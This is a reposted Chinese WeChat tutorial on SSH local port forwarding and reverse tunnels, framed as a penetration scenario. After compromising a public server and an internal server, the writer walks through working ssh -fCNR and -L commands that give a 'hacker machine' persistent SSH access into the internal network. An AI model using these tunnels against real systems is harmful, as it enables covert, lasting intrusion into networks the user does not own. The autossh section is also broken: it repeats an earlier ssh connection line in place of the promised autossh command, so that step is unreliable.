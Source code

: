 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247494972&idx=1&sn=0e309e74481b64577b87c3802d75858c&chksm=fc7be9e1cb0c60f71eb23300f692cea9936327254e285851fb7f6ee9fcd57debef711d69766b&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_jpg/UZ1NGUYLEFiaP3dCW5gZgZBqrbEozrPZK5I8Pmtjy6f0iaVLLpvWIdqLTwHIc5UJTzmdib1a1XmwEUhyI3QFXj81Q/640?wx_fmt=jpeg)](https://mp.weixin.qq.com/s?__biz=MzI1NjYyNTcxOQ==&mid=2247484052&idx=1&sn=61a00b6cef90b191d516bce635e528f2&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_jpg/UZ1NGUYLEFhLz1H5qAkgh9wkAnWtKQNJd5gpJXE7XFR5qAuM2JpmdfLVUoDkug3r0BJF0TiaMK5vyiaYCEzwqeag/640?wx_fmt=jpeg)](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490017&idx=1&sn=426336dfeeda818b0772b3c44703e173&chksm=fc781d3ccb0f942a7c07662752bb2f6983eb9c249c0d6b833f058b1d95fc7080d2d2598054ac&scene=21#wechat_redirect)

本公众号发布的文章均转载自互联网或经作者投稿授权的原创，文末已注明出处，其内容和图片版权归原网站或作者本人所有，并不代表安世加的观点，若有无意侵权或转载不当之处请联系我们处理，谢谢合作！

**欢迎各位添加微信号：asj-jacky**

**加入安世加 交流群 和大佬们一起交流安全技术**

使用 SSH 做端口转发以及反向隧道

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC7ZaMrYWalOBlgbe0Ct7tTCpgA1OdgXLIYehib9kxCrZLVrOHu4CnZx70OJlwTS5KdHHicGZaK2PC1A/640?wx_fmt=png)

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/YUyZ7AOL3okNXQklxyEOGf8O3njpw5lFv6KLyVZUpxezEuQlEOx5yxwTiactyPeibXCnfficWSJMAI0EqtH0mjufA/640?wx_fmt=png)

  

目录

    SSH 做本地端口转发

    SSH 做反向隧道 (远程端口转发)

    用 autossh 建立稳定隧道

  

![](https://mmbiz.qpic.cn/mmbiz_png/YUyZ7AOL3okNXQklxyEOGf8O3njpw5lFv6KLyVZUpxezEuQlEOx5yxwTiactyPeibXCnfficWSJMAI0EqtH0mjufA/640?wx_fmt=png)

  

SSH 开启端口转发需要修改 /etc/ssh/sshd_config 配置文件，将 GatewayPorts 修改为 yes

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cHpwXmcK3yMuYDVA64RcjWx6pRiccCp2OJmKwOFZZnSXvcH8swCKCaGdL6ts2sgEKiaqYvArgF3zRg/640?wx_fmt=png)

```
-f 后台执行ssh指令
-C 允许压缩数据
-N 不执行远程指令
-R 将远程主机(服务器)的某个端口转发到本地端指定机器的指定端口
-L 本地端口转发
-D 动态端口转发
```

  

![](https://mmbiz.qpic.cn/mmbiz_png/YUyZ7AOL3okNXQklxyEOGf8O3njpw5lFv6KLyVZUpxezEuQlEOx5yxwTiactyPeibXCnfficWSJMAI0EqtH0mjufA/640?wx_fmt=png)

  

►SSH 做本地端口转发

现在我们有这样一种情景，服务器 A 上有 Redis 数据库，并且我们知道 Redis 数据库的密码。但是 Redis 数据库只监听本地的 6379 端口，也就是 127.0.0.1:6379，现在我们需要连接该 Redis 数据库，读取其中的数据。那么，我们就可以用 SSH 做本地端口转发，在服务器 A 上监听 16379 端口，当连接该主机的 16379 端口时，16379 端口相当于正向代理，将我们的流量给本地的 6379 端口，再将 6379 端口返回的流量给我们的主机

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cHpwXmcK3yMuYDVA64RcjWw8AYBl5QY7sHIBnRvLEjE0gWUTSuFWumkIJXrnSAbReZgIJiaGhxSqg/640?wx_fmt=png)

```
ssh -fCNL *:16379:localhost:6379 localhost  #本地监听16379端口，将16379端口的流量都转发给6379端口
```

  

![](https://mmbiz.qpic.cn/mmbiz_png/YUyZ7AOL3okNXQklxyEOGf8O3njpw5lFv6KLyVZUpxezEuQlEOx5yxwTiactyPeibXCnfficWSJMAI0EqtH0mjufA/640?wx_fmt=png)

  

►SSH 做反向隧道 (远程端口转发)

> 注意：这里公网服务器 B 和内网服务器 A 都必须是 Linux 系统，才能建立 SSH 隧道

现在我们有这么一个环境，我们拿到了公网服务器 B 的权限，并通过公网服务器 B 进一步内网渗透，拿到了内网服务器 A 的权限。但是现在我们想要在自己的 Kali 机器上，获取内网服务器 A 的一个稳定持久的 SSH 权限。那么，我们可以通过 SSH 反向隧道，来得到内网服务器 A 的一个 SSH 权限。我们可以将内网服务器 A 的 22 端口远程转发到公网服务器的 1234 端口。

通俗地说，就是在机器 A 上做到 B 机器的反向代理；然后在 B 机器上做正向代理实现远程端口的转发

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cHpwXmcK3yMuYDVA64RcjWPfp53yKYYibTzmbicACqxOqzMhG2lLJBRRnrLpUgTwia2KjgwicopjIibLg/640?wx_fmt=png)

首先，在内网服务器 A 的操作

```
反向代理
ssh -fCNR  192.168.10.139:8888:localhost:22  root@192.168.10.139  #意思就是将A机器的22号端口的流量都转发给B机器的8888端口
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cHpwXmcK3yMuYDVA64RcjWbaYENw9s8eAC4anjJJZ7PRAJPAjYj9icqhGic9szBweEtoIzIVHdWicmQ/640?wx_fmt=png)

然后，公网服务器 B 的操作

```
正向代理
ssh -fCNL  *:1234:localhost:8888 localhost  #意思就是将本地监听的1234端口的流量都转发给本地的8888端口
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cHpwXmcK3yMuYDVA64RcjWEtKU7Cl3nniaUCcn3yrULjgX20slaPrBHHuwnbCYv5hRlTiaMPMhGcSA/640?wx_fmt=png)

接着，在黑客机器 C 的操作，通过 ssh 公网服务器 B 的某个端口实现 ssh 内网服务器 A 的 22 号端口

```
ssh -p 1234 root@100.100.10.12   #ssh连接到公网服务器的1234端口
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cHpwXmcK3yMuYDVA64RcjWjty9eHfzJqiaTXAN9CPu7KJZr4wh4icmtyFSVaRDUCU8UruplPWRpFIA/640?wx_fmt=png)

**所以最终流量的走向是这样的**：黑客 SSH 到公网服务器 B 的 1234 端口，公网服务器 B 监听了本地的 1234 端口，将流量转发到本地的 8888 端口，于是内网服务器 A 将本地的 22 号端口反向代理到了公网服务器 B 的 8888 端口，公网服务器 B 又将 8888 端口的流量转发到了本地的 1234 端口，所以黑客 SSH 连接到了内网服务器 A。

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cHpwXmcK3yMuYDVA64RcjWwFhrI6vuZ7IPfnRMD8RHicLBnqD58zeN9SnnnXjzzM54Ol9AHjsucFQ/640?wx_fmt=png)

**缺点**：这种 ssh 反向链接会因为超时而关闭，如果关闭了那从外网连通内网的通道就无法维持了，为此我们需要另外的方法来提供稳定的 ssh 反向代理隧道。

  

![](https://mmbiz.qpic.cn/mmbiz_png/YUyZ7AOL3okNXQklxyEOGf8O3njpw5lFv6KLyVZUpxezEuQlEOx5yxwTiactyPeibXCnfficWSJMAI0EqtH0mjufA/640?wx_fmt=png)

  

►**用 autossh 建立稳定隧道**

安装 autossh：yum install autossh

autossh 的参数与 ssh 的参数是一致的，但是不同的是，在隧道断开的时候，autossh 会自动重新连接而 ssh 不会。另外不同的是我们需要指出的 - M 参数，这个参数指定一个端口，这个端口是外网的 B 机器用来接收内网 A 机器的信息，如果隧道不正常而返回给 A 机器让他实现重新连接。  
在内网 A 机器上的操作：

```
ssh -p 1234 root@100.100.10.12   #ssh连接到公网服务器的1234端口
```

  

![](https://mmbiz.qpic.cn/mmbiz_png/YUyZ7AOL3okNXQklxyEOGf8O3njpw5lFv6KLyVZUpxezEuQlEOx5yxwTiactyPeibXCnfficWSJMAI0EqtH0mjufA/640?wx_fmt=png)

  

参考文章：实战 SSH 端口转发

             使用 SSH 反向隧道进行内网穿透

相关文章：[内网渗透（七） | 内网转发及隐蔽隧道：网络层隧道技术之 ICMP 隧道 (pingTunnel/IcmpTunnel)](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247489736&idx=2&sn=0cb551ee520860878c2c33108033c00c&chksm=fc781c15cb0f9503f672aa0bd18cb13fef4c60124ba5978ab947c34272b2d8a28c584a99219d&scene=21#wechat_redirect)

  

![](https://mmbiz.qpic.cn/mmbiz_png/YUyZ7AOL3okNXQklxyEOGf8O3njpw5lFv6KLyVZUpxezEuQlEOx5yxwTiactyPeibXCnfficWSJMAI0EqtH0mjufA/640?wx_fmt=png)

  

责编：vivian

来源：谢公子博客

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC7WOvqJzrYxANSsSsXWREZchRBtP5gkcf6bN5E5UBvXETXC8jruzBDAGbf6J44SuwUD2A7icJngOfA/640?wx_fmt=png)

  

[![](https://mmbiz.qpic.cn/mmbiz_jpg/UZ1NGUYLEFjWI9QibTmpF13L33cHIh2bSMLAI4tW7sTgTkzh4lRcZ6JR7SrOibCTYUEsg8ZsmyKnUBm7h4J5klZw/640?wx_fmt=jpeg)](https://mp.weixin.qq.com/s?__biz=MzA3NzM2MjAzMg==&mid=2657228904&idx=1&sn=aa0d7a52864f19cbd6245a46ce162a1f&scene=21#wechat_redirect)

[内网渗透（十六） | 域分析工具 BloodHound 的使用](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247494062&idx=1&sn=0c486f53daca08ee61abc51926db2b96&chksm=fc7bed73cb0c646557767e2e21d3c0113df80f831263dea4ce45bd6969da44f27ee700518427&scene=21#wechat_redirect)  

[内网渗透 | 红蓝对抗：Windows 利用 WinRM 实现端口复用打造隐蔽后门](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247493916&idx=2&sn=eacc42e5f8f68fc65dae1c8a1201f014&chksm=fc7bedc1cb0c64d7115c0c3bf84410e29102a25627891c9eb85cba2026b7bc3622a9ebb5e2b2&scene=21#wechat_redirect)  

[内网渗透（十五） | psexec 工具使用浅析 (admin$)](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247493004&idx=1&sn=e908ac6ef03c0b5ae0cc5a2cabba7ebb&chksm=fc7be151cb0c684789bbc5f6a54e5906a3fed929eeffdba7667839491826fbb029bba295ef82&scene=21#wechat_redirect)  

[内网渗透（十四） | 工具的使用 | Impacket 的使用](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247492731&idx=1&sn=570c1d9e12ef39709e289b5cc9e2447f&chksm=fc7be0a6cb0c69b0d94c41408b862214beaa631b04ba32f2307819a8b3ac445726849cb24e7f&scene=21#wechat_redirect)

[内网渗透（十三） | WinRM 远程管理工具的使用](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247492427&idx=1&sn=af3a862d78184e93b6e9377f12bce354&chksm=fc7be796cb0c6e80a057dff2a7d67e3483c33e8da2d3a7acb84d04fdd997f28cb89f1fd617fd&scene=21#wechat_redirect)  

[内网渗透（十二） | 利用委派打造隐蔽后门 (权限维持)](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247491363&idx=1&sn=e5d6670b0f76299d92110d7b679ad70b&chksm=fc781bfecb0f92e8aacaa6f4f7788ed48577e25f943d92073b1b26e68bfbc8f505b2dd2fa4d8&scene=21#wechat_redirect)  

[内网渗透（十一） | 哈希传递攻击 (Pass-the-Hash,PtH)](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490908&idx=1&sn=97594fbbef40346d07b5a6e5185ce77e&chksm=fc781981cb0f9097d18f4b32ff39f59b3512cedd35f0810ad5f61b661e631153f8c4e157d875&scene=21#wechat_redirect)  

[技术干货 | 工具：Social engineering tookit 钓鱼网站](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490513&idx=2&sn=10afb29a20f37df05ebb12ea4d540e1f&chksm=fc781f0ccb0f961a85e646dd54e977dbcaeb5569be6701db4c29b9e204d964bab3ded6bf1999&scene=21#wechat_redirect)

[技术干货 | 工具的使用：CobaltStrike 上线 Linux 主机 (CrossC2)](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490608&idx=1&sn=f2b2ea93b109447aa8cc2c872aa87c52&chksm=fc7818edcb0f91fbf85fa53f71e9967fc29fc93f6a783eed154707ca2dec24ca7f419fde5705&scene=21#wechat_redirect)

[内网渗透（十） | 票据传递攻击](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490376&idx=2&sn=c070dd4c761b49d3fabd573cc9c96b5a&chksm=fc781f95cb0f9683b0f6c64f5db5823973c1b10e87b1452192bbed6c1159eccf6e8f2fd0290b&scene=21#wechat_redirect)  

[内网渗透（九） | Windows 域的管理](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490197&idx=1&sn=4682065ddcab00b584918bc267e33f53&chksm=fc781e48cb0f975eddc44d77698fbb466d0eac7d745a6e5bbaf131560b3d4f9e22c1a359d241&scene=21#wechat_redirect)  

[内网渗透（八） | 内网转发工具的使用](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490042&idx=1&sn=136d4057044a7d6f6cb5b57d20f7954a&chksm=fc781d27cb0f9431ec590662ab4e6bcd31b303e7caa20a2b116fd9a9b97e9e3be0bc34408490&scene=21#wechat_redirect)  

[内网渗透 | 域内用户枚举和密码喷洒攻击 (Password Spraying)](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247489985&idx=1&sn=0b7bce093e501b9817f263c24e0ed5b8&chksm=fc781d1ccb0f940aad0c9b2b06b68c7a58b0b4c513fe45f7da6e6438cac76d4778e61122faf8&scene=21#wechat_redirect)  

[内网渗透（七） | 内网转发及隐蔽隧道：网络层隧道技术之 ICMP 隧道 (pingTunnel/IcmpTunnel)](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247489736&idx=2&sn=0cb551ee520860878c2c33108033c00c&chksm=fc781c15cb0f9503f672aa0bd18cb13fef4c60124ba5978ab947c34272b2d8a28c584a99219d&scene=21#wechat_redirect)  

[内网渗透（六） | 工作组和域的区别](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247489205&idx=1&sn=24f9a2e0e6b92a167f3082bb6e09c734&chksm=fc781268cb0f9b7e3c11d19a9fb41567124055eb0e8dd526cbbaf1e9393ff707f9fa9d10c32b&scene=21#wechat_redirect)  

[内网渗透（五） | AS-REP Roasting 攻击](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247489128&idx=1&sn=dac676323e81307e18dd7f6c8998bde7&chksm=fc7812b5cb0f9ba3a63c447468b7e1bdf3250ed0a6217b07a22819c816a8da1fdf16c164fce2&scene=21#wechat_redirect)

[内网渗透 | 内网穿透工具 FRP 的使用](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247489057&idx=3&sn=f81ef113f1f136c2289c8bca24c5deb1&chksm=fc7812fccb0f9beaa65e5e9cf40cf9797d207627ae30cb8c7d42d8c12a2cb0765700860dab84&scene=21#wechat_redirect)  

[内网渗透（四） | 域渗透之 Kerberoast 攻击_Python](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488972&idx=1&sn=87a6d987de72a03a2710f162170cd3a0&chksm=fc781111cb0f98070f74377f8348c529699a5eea8497fd40d254cf37a1f54f96632da6a96d83&scene=21#wechat_redirect)  

[内网渗透（三） | 域渗透之 SPN 服务主体名称](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488936&idx=1&sn=82c127c8ad6d3e36f1a977e5ba122228&chksm=fc781175cb0f986392b4c78112dcd01bf5c71e7d6bdc292f0d8a556cc27e6bd8ebc54278165d&scene=21#wechat_redirect)  

[内网渗透（二） | MSF 和 CobaltStrike 联动](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488905&idx=2&sn=6e15c9c5dd126a607e7a90100b6148d6&chksm=fc781154cb0f98421e25a36ddbb222f3378edcda5d23f329a69a253a9240f1de502a00ee983b&scene=21#wechat_redirect)  

[内网渗透 | 域内认证之 Kerberos 协议详解](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488900&idx=3&sn=dc2689efec7757f7b432e1fb38b599d4&chksm=fc781159cb0f984f1a44668d9e77d373e4b3bfa25e5fcb1512251e699d17d2b0da55348a2210&scene=21#wechat_redirect)  

[内网渗透（一） | 搭建域环境](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488866&idx=2&sn=89f9ca5dec033f01e07d85352eec7387&chksm=fc7811bfcb0f98a9c2e5a73444678020b173364c402f770076580556a053f7a63af51acf3adc&scene=21#wechat_redirect)